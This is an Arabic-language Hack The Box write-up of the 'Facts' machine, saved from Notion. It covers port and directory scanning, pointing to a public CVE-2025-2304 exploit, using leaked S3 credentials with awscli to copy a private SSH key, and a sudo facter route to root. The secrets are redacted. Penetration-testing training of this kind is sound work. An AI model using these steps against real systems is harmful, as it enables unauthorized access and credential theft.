Facts HTB Machine
توثيق تقني محفوظ من المصدر الأصلي في Notion، يشمل الخطوات والأوامر والنتائج ولقطات الشاشة المتاحة.
العودة إلى تقارير CTFبسم الله الرحمن الرحيم
---
تقرير اختبار اختراق احترافي: Facts Machine (Hack The Box)

> الخطوة الاولى بالطبع هي الاتصال بال VPN وتشغيل الالة المستهدفة وانتظر حتى تحصل على عنوان ال IP الخاص بالهدف
1. ملخص تنفيذي (Executive Summary)
تم إجراء اختبار اختراق اخلاقي ومصرح به لمحاكي المختبر Facts على منصة Hack The Box. الهدف من هذه العملية هو تقييم الوضع الأمني للماشين، وتحديد الثغرات الأمنية المتاحة، واستغلالها وصولاً إلى الصلاحيات الكاملة (root)، ثم توثيق الإجراءات التصحيحية اللازمة.
نتائج الفحص الأساسية:
- اسم الماشين: Facts
- عنوان الـ IP:
10.129.48.15 - مستوى الصعوبة: متوسط (Medium)
- نطاق الثغرات المكتشفة:
- تسريب بيانات حساسة وسوء إعدادات في الخدمة السحابية (S3 Bucket Misconfiguration).
- ثغرة رفع صلاحيات محملة محلياً عبر أداة جمع الحقائق (Privilege Escalation via Facter).
---
2. مرحلة الاستطلاع وفحص المنافذ (Reconnaissance & Port Scanning)
بدأت العملية بإجراء فحص كامل للمنافذ المفتوحة والخدمات التي تعمل عليها باستخدام أداة Nmap لتحديد خط الهجوم الأول (Attack Surface).
الأمر المستخدم sudo nmap -sV -sC -Pn <Taregt-Ip> :1

هناك 2 منافذ تعمل web (port 80) & (ssh port 22)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_ 256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp open http nginx 1.26.3 (Ubuntu)
|_http-title: facts
|_http-server-header: nginx/1.26.3 (Ubuntu)عند قيامنا بتحليل تلك البيانات نلاحظ الاتي :
- منفذ 22 (SSH): يعمل بإصدار آمن نسبياً ولم يظهر فيه ثغرات مباشرة (بشكل أولي).<br><br>
- منفذ 80 (HTTP): يعمل بخادم
nginxويعرض موقعاً باسمfacts.<br><br>
> قمنا باضافة النطاق الى ملف ال //etc/hosts/ بستخدام الامر التالي : ↓↓↓↓ وقمنا باستكشافه من المتصفح
echo"<Target-IP> facts.htb" | sudo tee -a /etc/hosts

> باستخدام gobuster، قمنا بتعداد النطاق الفرعي وحصلنا على عدد قليل من الزيارات، أبرزها /admin.
gobuster dir -u http://facts.htb/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://facts.htb/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
/admin (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
/admin.cgi (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
/admin.php (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
/admin.pl (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
/ajax (Status: 200) [Size: 0]
/cache (Status: 200) [Size: 11116]
/captcha (Status: 200) [Size: 1310]
/config (Status: 200) [Size: 11119]
/cvs (Status: 200) [Size: 11110]
/CVS (Status: 200) [Size: 11110]

> لاحظ ان Camaleon CMS v2.9.0 قديم جدًا، وهو عرضة لـ CVE-2025–2304 ويمكننا الحصول على استغلال للثغرة من خلال البحث عنها في *Github او قم بنسخه من هنا <mention-page url="https://app.notion.com/p/3587739eb412808ca763e3c53fbdecbe">CVE-2025-2304 Exploit</mention-page> *
https://github.com/Alien0ne/CVE-2025-2304/blob/main/exploit.py
> قمنا بنسخ ملف الاستغلال على جهازنا بأسم privsec.py و قمنا بتشغيله ونجح الاستغلال وحصلنا على مفاتيح سحابة أمازون (AWS S3 Credentials) وهيا مفتاح الخطوة القادمة

[+]Extracting S3 Credentials
s3 access key: [REDACTED_AWS_ACCESS_KEY]
s3 secret key: [REDACTED_AWS_SECRET_KEY]
s3 endpoint: http://localhost:54321
[+]Reverting User Role
الان لكي نتمكن من التعامل مع بيئة AWS (خدمات تخزين امازون السحابية) يجب علينا استخدام اداة (awscli) هي الأداة الرسمية التي توفرها شركة أمازون للتحكم في خدماتها السحابية مباشرة من واجهة الأوامر (Terminal).
يمكننا تثبيتها ان لم تكن موجودة من خلال الامر التالي \[ sudo apt install awscli\]
<br>اولا يجب علينا تهيئة الأداة (aws configure) واضافة المفاتيح بالشكل التالي : <br>
aws configure --profile facts
AWS Access Key ID [None]: [REDACTED_AWS_ACCESS_KEY]
AWS Secret Access Key [None]: [REDACTED_AWS_SECRET_KEY]
Default region name [None]:
Default output format [None]: 
الان نقوم باستكشاف ما يوجد داخل الـ Bucket. من خلال الامر التالي :
aws --endpoint-url http://facts.htb:54321 --profile facts s3 ls
2025-09-11 15:06:52 internal
2025-09-11 15:06:52 randomfacts
- حصلنا على
randomfacts: ودي غالباً عليها ميديا أو صور الموقع. - وحصلنا ايضا على
internal: ودي (High Value Target)، لأنها غالباً بتحتوي على ملفات إعدادات أو كود داخلي.
> <br>قمنا بفحص internal: وتصفية النتائج باستخدام Grep للبحث عن الملفات المهمة فقط من بين العديد من النتائج الموجودة للتشتيت<br>
┌──(kali㉿kali)-[~/Downloads]
└─$ aws --endpoint-url http://facts.htb:54321 --profile facts s3 ls s3://internal --recursive | grep -E "config|database|settings|.env"
2026-01-08 20:45:15 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/aws-sdk-appconfig-da6a9e8efde98ebec5fdcee0f5da28ea
2026-01-08 20:45:15 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/aws-sdk-appconfigdata-28686d54081c58f0c3c241ec6b818223
2026-01-08 20:45:32 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/aws-sdk-configservice-c4166bcadb607dec061b0e2e856876cf
2026-01-08 20:45:33 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/aws-sdk-databasemigrationservice-fbe1b7205d5042547cd72e17b400ca64
2026-01-08 20:45:49 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/aws-sdk-migrationhubconfig-efd666f46c97e849591db8fd0c055eea
2026-01-08 20:45:52 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/aws-sdk-route53recoverycontrolconfig-9eac628f6293c2afadb6fd4c07859877
2026-01-08 20:46:29 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/aws-sdk-taxsettings-e602c8f5c7ce76b135ccbdcc57b201b4
2026-01-08 20:46:29 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/configuration-ccd1066343c95877b75b79d47c36bebe
2026-01-08 20:46:29 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/cucumber-ci-environment-dcfdecb840d853485904f151ee909b30
2026-01-08 20:46:30 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/database_cleaner-12a6aaf38db0e7d014f144770e2f58b9
2026-01-08 20:46:30 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/database_cleaner-active_record-59ca292bebcb964e2f2acf70ea8b3261
2026-01-08 20:46:30 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/database_cleaner-core-2df19ecc2cf141ac5fbc78f3262bbaf0
2026-01-08 20:46:30 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/dotenv-3f5ead17822b4cd022532df7dc2479c4
2026-01-08 20:46:30 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/dotenv-deployment-cc21279a536754faed8983e6551be4a7
2026-01-08 20:46:34 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/google-cloud-env-a81ddb5fc20b0357c764ca3e75a2301f
2026-01-08 20:46:38 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/nenv-b7be93466d6f9b962acb2cafb17dfeea
2026-01-08 20:46:39 32 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info-etags/pkg-config-8f4e4e875f8521719dd560c40e5585d3
2026-01-08 20:46:41 10217 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/aws-sdk-appconfig
2026-01-08 20:46:41 6666 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/aws-sdk-appconfigdata
2026-01-08 20:46:41 21100 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/aws-sdk-configservice
2026-01-08 20:46:41 20264 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/aws-sdk-databasemigrationservice
2026-01-08 20:46:43 8574 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/aws-sdk-migrationhubconfig
2026-01-08 20:46:43 7464 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/aws-sdk-route53recoverycontrolconfig
2026-01-08 20:46:44 4859 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/aws-sdk-taxsettings
2026-01-08 20:46:44 733 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/configuration
2026-01-08 20:46:44 1475 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/cucumber-ci-environment
2026-01-08 20:46:44 5255 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/database_cleaner
2026-01-08 20:46:44 1655 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/database_cleaner-active_record
2026-01-08 20:46:44 373 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/database_cleaner-core
2026-01-08 20:46:45 4639 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/dotenv
2026-01-08 20:46:45 354 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/dotenv-deployment
2026-01-08 20:46:55 2857 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/google-cloud-env
2026-01-08 20:47:04 490 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/nenv
2026-01-08 20:47:06 5350 .bundle/cache/compact_index/rubygems.org.443.29b0360b937aa4d161703e6160654e47/info/pkg-config
قمنا بلبحث عن ملفات (.ssh) وبالفعل لقد حددنا موقع مفتاح SSH خاص (id_ed25519) وملف Author_keys

ثم قمنا بسحب مفتاح ال ssh هذا الى جهازنا المحلي من خلال الامر التالي واعطائه الصلاحيات اللازمة :
aws --endpoint-url http://facts.htb:54321 --profile facts s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519_htb
download: s3://internal/.ssh/id_ed25519_htb to ./id_ed25519_htb
سيرفض SSH استخدام مفتاح خاص "مفتوح" للغاية. يجب عليك تقييد الأذونات:
chmod 600 id_ed25519_htb> قمنا بفك تشفير المفتاح باستخدام الاوامر التالية : وبالفعل خرجت لنا كلمة السر [REDACTED CTF PASSPHRASE]

> الان يمكننا تسجيل الدخول عبر ال ssh والوصول الاولي الى النظام والحصول على ال User Flag باستخدام اسم المستخدم Username=(trivia)

> الان بقى لنا ان نقوك بالخطوة الاخيرة رفع صلاحياتنا داخل النظام والحصول على ال Root Flag
trivia@facts:~$ sudo -l
Matching Defaults entries for trivia on facts:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User trivia may run the following commands on facts:
(ALL) NOPASSWD: /usr/bin/facter
trivia@facts:~$> وكان مسموحا للمستخدم Trivia ان يقوم بتشغيل هذا البرنامج بصلاحيات ال Root وبدون باسورد وقمنا بستغلال ذلك لتصعيد امتيازاتنا الى ال Root user

